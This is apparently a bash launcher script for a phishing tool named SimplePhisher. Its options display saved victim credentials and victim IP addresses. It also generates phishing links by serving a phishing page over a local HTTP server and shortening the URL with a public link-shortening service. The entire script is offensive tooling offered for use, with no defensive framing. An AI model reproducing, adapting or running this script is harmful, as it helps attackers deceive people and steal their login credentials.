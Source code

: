 # Fishing attack 


#!/bin/bash

# Define the root directory for the phishing tool
if [[ $(uname -o) == *'Android'* ]]; then
        SIMPLEPHISHER_ROOT="/data/data/com.termux/files/usr/opt/simplephisher"
else
        export SIMPLEPHISHER_ROOT="/opt/simplephisher"
fi

# Function to display the help menu
show_help() {
        echo "To run SimplePhisher type \`simplephisher\` in your cmd"
        echo
        echo "Help:"
        echo " -h | help : Print this menu & Exit"
        echo " -c | auth : View Saved Credentials"
        echo " -i | ip   : View Saved Victim IP"
        echo " -g | generate : Generate a phishing link"
        echo " -p | port  : Specify a custom port for the HTTP server (default: 8080)"
        echo " -f | file  : Specify a custom phishing page (default: phishing_page.html)"
        echo
}

# Function to generate a phishing link
generate_phishing_link() {
        # Default values
        PORT=${PORT:-8080}
        PHISHING_PAGE=${PHISHING_PAGE:-"$SIMPLEPHISHER_ROOT/phishing_page.html"}

        # Start an HTTP server to serve the phishing page
        python3 -m http.server $PORT &
        SERVER_PID=$!

        # Get the local IP address
        LOCAL_IP=$(hostname -I | awk '{print $1}')

        # Construct the phishing URL
        PHISHING_URL="http://$LOCAL_IP:$PORT"

        # Use a URL shortening service to shorten the phishing URL
        SHORTENED_URL=$(curl -s "https://is.gd/create.php?format=simple&url=$PHISHING_URL")

        # Stop the HTTP server
        kill $SERVER_PID

        # Log the generated link
        echo "$(date): Phishing link generated: $SHORTENED_URL" >> $SIMPLEPHISHER_ROOT/logs/phishing_links.log

        echo "Phishing link generated: $SHORTENED_URL"
}

# Check the command-line arguments
while [[ $# -gt 0 ]]; do
        case $1 in
                -h|help)
                        show_help
                        exit 0
                        ;;
                -c|auth)
                        cat $SIMPLEPHISHER_ROOT/auth/usernames.dat 2> /dev/null || {
                                echo "No Credentials Found!"
                                exit 1
                        }
                        ;;
                -i|ip)
                        cat $SIMPLEPHISHER_ROOT/auth/ip.txt 2> /dev/null || {
                                echo "No Saved IP Found!"
                                exit 1
                        }
                        ;;
                -g|generate)
                        generate_phishing_link
                        ;;
                -p|port)
                        PORT=$2
                        shift
                        ;;
                -f|file)
                        PHISHING_PAGE=$2
                        shift
                        ;;
                *)
                        echo "Unknown option: $1"
                        show_help
                        exit 1
                        ;;
        esac
        shift
done

# Change to the phishing tool directory and run the main script
cd $SIMPLEPHISHER_ROOT
bash ./simplephisher.sh
